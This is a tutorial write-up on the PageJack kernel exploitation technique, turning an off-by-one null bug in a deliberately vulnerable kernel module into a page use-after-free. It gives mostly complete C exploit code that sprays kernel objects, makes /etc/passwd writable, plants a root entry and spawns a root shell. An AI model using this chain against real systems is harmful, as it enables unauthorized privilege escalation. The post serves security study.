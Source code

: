 ```yaml
---
title: Linux Kernel Exploitation - PageJack
date: 2025-05-03
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain PageJack, a universal and data-only exploitation technique that turns an off-by-one-null into a page UAF. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/pagejack) beforehand.

## Analysis
The vulnerable LKM provides two commands: `CMD_ALLOC` and `CMD_WRITE`. These commands are used to allocate and write to an object defined as follows:
```c
#define OBJ_SIZE    0x400

struct obj {
    char buf[OBJ_SIZE];
};
```

## Bugs
There is an obvious off-by-one null bug in `obj_write`:
```c
static long obj_write(char *data, size_t size) {
    if (obj == NULL || size > OBJ_SIZE) {
        return -1;
    }
    if (copy_from_user(obj->buf, data, size) != 0) {
        return -1;
    }
    obj->buf[size] = '\0';
    return 0;
}
```

## PageJack
PageJack is a technique that turns an off-by-one null bug into a page UAF. It targets the array of `struct pipe_buffer` allocated in `alloc_pipe_buf`:
```c
// https://elixir.bootlin.com/linux/v6.13/source/fs/pipe.c#L815-L816
struct pipe_inode_info *alloc_pipe_info(void)
{
    struct pipe_inode_info *pipe;
    unsigned long pipe_bufs = PIPE_DEF_BUFFERS;
    ...
    pipe->bufs = kcalloc(pipe_bufs, sizeof(struct pipe_buffer),
                 GFP_KERNEL_ACCOUNT);
    ...
}
```
`struct pipe_buffer` has a pointer to a struct page as its first member:
```c
// https://elixir.bootlin.com/linux/v6.13/source/include/linux/pipe_fs_i.h#L26-L32
struct pipe_buffer {
    struct page *page;
    unsigned int offset, len;
    const struct pipe_buf_operations *ops;
    unsigned int flags;
    unsigned long private;
};
```
Since `struct page` is 0x40 bytes and we have an off-by-one-null primitive, we can overwrite the pointer to point to a different page with a 75% chance. Then, by closing the pipe, we can free a page that another pipe is using. This lets us trigger a page UAF.

PageJack is a very powerful technique that can bypass mitigations like CONFIG_CFI_CLANG and the upcoming [CONFIG_SLAB_VIRTUAL](https://github.com/thejh/linux/blob/slub-virtual/MITIGATION_README).

## Exploitation
First, we allocate the victim object near `struct pipe_buffer`:
```c
puts("[*] Spraying struct pipe_buffer");
int pipefds[NUM_PIPE_SPRAY][2];
for (int i = 0; i < NUM_PIPE_SPRAY / 2; i++) {
    assert(pipe(pipefds[i]) != -1);
}

puts("[*] Allocating a victim object from kmalloc-1k");
obj_alloc();

puts("[*] Spraying struct pipe_buffer");
for (int i = NUM_PIPE_SPRAY / 2; i < NUM_PIPE_SPRAY; i++) {
    assert(pipe(pipefds[i]) != -1);
}
```
Next, we write values to the allocated pipes. This is necessary in a later step to identify the victim pipe:
```c
puts("[*] Writting to pipes to allocate pages");
for (int i = 0; i < NUM_PIPE_SPRAY; i++) {
    int val = 0xcafebabe + i;
    assert(write(pipefds[i][1], &val, sizeof(val)) != -1);
    assert(write(pipefds[i][1], "deadbeef", 8) != -1);
}
```
There are two reasons why we additionally write `"deadbeef"`. The first reason is to prevent the page from being freed when we later read 4 bytes. If only 4 bytes were written, `anon_pipe_buf_release` would be called in `pipe_read`, causing the page to be freed:
```c

// https://elixir.bootlin.com/linux/v6.13/source/fs/pipe.c#L343-L344
static ssize_t
pipe_read(struct kiocb *iocb, struct iov_iter *to)
{
    ...
            if (!buf->len)
                tail = pipe_update_tail(pipe, buf, tail);
```

The second reason is to overwrite the `f_mode` member of `struct file` in the final step.
Since `pipe_write` writes from `len + offset`, and the offset of the `f_mode` member is 0xc, we adjust the write position:
```c
// https://elixir.bootlin.com/linux/v6.13/source/fs/pipe.c#L477-L485
static ssize_t
pipe_write(struct kiocb *iocb, struct iov_iter *from)
{
    ...
        int offset = buf->offset + buf->len;

        if ((buf->flags & PIPE_BUF_FLAG_CAN_MERGE) &&
            offset + chars <= PAGE_SIZE) {
            ret = pipe_buf_confirm(pipe, buf);
            if (ret)
                goto out;

            ret = copy_page_from_iter(buf->page, offset, chars, from);
```
![win](/assets/img/posts/2025-05-03-6/page.png)

Next, we trigger the off-by-one-null:
```c
puts("[*] Overwitting pipe->bufs[0].page");
char zero[0x400] = {};
obj_write(zero, 0x400);
```
Next, we identify the victim pipe by reading from the pipe and checking if the value differs from the one we wrote:
```c
puts("[*] Locating the victim pipe");
int victim_pipefd = -1;
int origin_pipefd = -1;
for (int i = 0; i < NUM_PIPE_SPRAY; i++) {
    int val;

    assert(read(pipefds[i][0], &val, 4) != -1);
    if (val != 0xcafebabe + i) {
        victim_pipefd = i;
        origin_pipefd = val - 0xcafebabe;
        printf("[+] Found: victim_pipefd = %d, origin_pipefd = %d\n", victim_pipefd, origin_pipefd);
        break;
    }
}
if (victim_pipefd == -1) {
    puts("[-] Failed to locate the victim pipe");
    exit(0);
}
```
Next, we close one of the pipes that shares the same pointer to the page:
```c
puts("[*] Closing the original pipe");
assert(close(pipefds[origin_pipefd][0]) != -1);
assert(close(pipefds[origin_pipefd][1]) != -1);
```
Next, we spray `struct file` objects for /etc/passwd to make the freed page be used as a slab in the `filp` cache:
```c
puts("[*] Spraying struct file of /etc/passwd");
int filefds[NUM_SPRAY_FILE];
for (int i = 0; i < NUM_SPRAY_FILE; i++) {
    filefds[i]= open("/etc/passwd", O_RDONLY);
    assert(filefds[i] != -1);
}
```
Finally, we use the victim pipe to overwrite the `f_mode` member, making /etc/passwd writable, and then overwrite it.
```c
puts("[*] Overwitting f_mode");
int fake_f_mode = 0x84f801f;
assert(write(pipefds[victim_pipefd][1], &fake_f_mode, 4) != -1);

char payload[] = "root:$1$deadbeef$j9ep0CjBGivAnD5z6l5rr0:0:0:root:/root:/bin/sh\n";
printf("[*] Overwriting /etc/passwd with %s", payload);
for (int i = 0; i < NUM_SPRAY_FILE; i++) {
    if (write(filefds[i], payload, sizeof(payload)) != -1) {
        puts("[+] Success");
        puts("[+] You can now log in as root with the password: cafebabe");
        char *argv[] = {"/bin/sh", NULL};
        execve(argv[0], argv, NULL);
    }
}
```
By running this exploit, we can log in as a root user and see the flag:
![win](/assets/img/posts/2025-05-03-6/win.png)

## References
1. Zhiyun Qian, Jiayi Hu, Jinmeng Zhou, Qi Tang and Wenbo Shen. 2024. PageJack: A Powerful Exploit Technique With Page-Level UAF. https://i.blackhat.com/BH-US-24/Presentations/US24-Qian-PageJack-A-Powerful-Exploit-Technique-With-Page-Level-UAF-Thursday.pdf
2. arttnba3. 2023. 【CTF.0x08】D^ 3CTF2023 d3kcache: From null-byte cross-cache overflow to infinite arbitrary read & write. https://blog.arttnba3.cn/2023/05/02/CTF-0X08_D3CTF2023_D3KCACHE/